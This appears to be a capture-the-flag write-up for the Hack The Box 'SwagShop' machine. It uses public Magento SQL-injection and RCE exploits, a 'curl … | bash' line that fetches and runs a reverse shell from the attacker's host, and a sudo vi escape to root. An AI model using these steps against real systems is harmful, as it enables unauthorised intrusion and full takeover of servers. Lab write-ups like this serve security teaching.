 ## SwagShop

Difficulty: Easy

### User Flag

```
rustscan -a swagshop.htb --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://user-images.githubusercontent.com/58514930/222139443-28f9d160-3bcc-4a92-a340-4708e2d84107.png)

<br>

Accessing the website, Magento is being used.

![websiteMagento](https://user-images.githubusercontent.com/58514930/222139663-0eeebe6c-6567-4284-ae7c-08ade491b1c6.png)

<br>

Searching for Magento exploits, [this one works](https://github.com/joren485/Magento-Shoplift-SQLI/blob/master/poc.py) and create a user that give us access to the admin panel.  

```
python2 poc.py http://swagshop.htb"
```

![initialExploit](https://user-images.githubusercontent.com/58514930/222140829-445ac0e5-475b-44bf-ac6d-c3b7cf78d344.png)

![adminLogin](https://user-images.githubusercontent.com/58514930/222140850-602af55b-cdf2-45ed-b240-bd9ed1b7b64c.png)

<br>

In the admin panel, we find the magento version.

![magentoVersion](https://user-images.githubusercontent.com/58514930/222141639-1862f39e-dade-4ef5-bb60-557ebf16b5da.png)

<br>

Searching for Magento 1.9.0.0 version, we find a [RCE Exploit](https://www.exploit-db.com/exploits/37811).  

First we need to fill in these informations.

![exploitConfigDB](https://user-images.githubusercontent.com/58514930/222142019-c6349eab-4950-41f2-8be9-19730f273e08.png)

<br>

The install date is find in /app/etc/local.xml.

![gettingConfig](https://user-images.githubusercontent.com/58514930/222142257-03ada822-64ce-45e8-afc7-14d70fa0d1d7.png)

![exploitModified](https://user-images.githubusercontent.com/58514930/222143664-a311e243-dffd-497e-abb7-66be79a829ca.png)

<br>

Testing RCE.

![RCEworking](https://user-images.githubusercontent.com/58514930/222143759-f843b136-8cc2-47a9-81b8-6e88c11b2000.png)

<br>

Create a "shell" file with a reverse shell and curl it to get it.

```
python2 37811 "http://10.10.10.140/index.php/admin/" "curl 10.10.14.4:8000/shell | bash"
```

![gettingReverseShell](https://user-images.githubusercontent.com/58514930/222143893-4d478100-a317-4a97-8ec9-e41f0ac1205b.png)

### Root Flag

Enumerating with sudo -l, we see that we have permission to execute vim on any /var/www/html/* file.

![sudo -l](https://user-images.githubusercontent.com/58514930/222143955-e9ed4211-4d88-49d9-931b-294f476ac4cd.png)

<br>

```
sudo /usr/bin/vi /var/www/html/test.php
!:sh
```

![rootAccess](https://user-images.githubusercontent.com/58514930/222144136-244cc3e8-df5f-4f65-bc70-16ee741693c9.png)
